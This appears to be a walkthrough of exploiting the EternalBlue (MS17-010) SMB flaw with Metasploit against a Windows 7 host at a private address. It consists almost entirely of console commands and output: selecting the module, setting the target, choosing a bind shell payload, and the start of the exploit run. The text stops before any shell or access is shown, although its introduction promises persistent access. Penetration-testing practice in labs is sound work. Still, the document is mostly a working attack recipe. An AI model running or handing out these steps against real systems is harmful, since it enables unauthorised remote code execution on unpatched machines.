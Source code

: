 This is an extended walkthrough of the `eternalblue` exploit, expanded to include gaining more permanent access.

```bash
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOST                           yes       The target address
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.0.3.27
RHOST => 10.0.3.27
msf exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOST          10.0.3.27        yes       The target address
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf exploit(windows/smb/ms17_010_eternalblue) > set payload generic/shell_bind_tcp
payload => generic/shell_bind_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] 10.0.3.27:445 - Connecting to target for exploitation.
[+] 10.0.3.27:445 - Connection established for exploitation.
[+] 10.0.3.27:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.3.27:445 - CORE raw buffer dump (42 bytes)
[*] 10.0.3.27:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.0.3.27:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.0.3.27:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
```
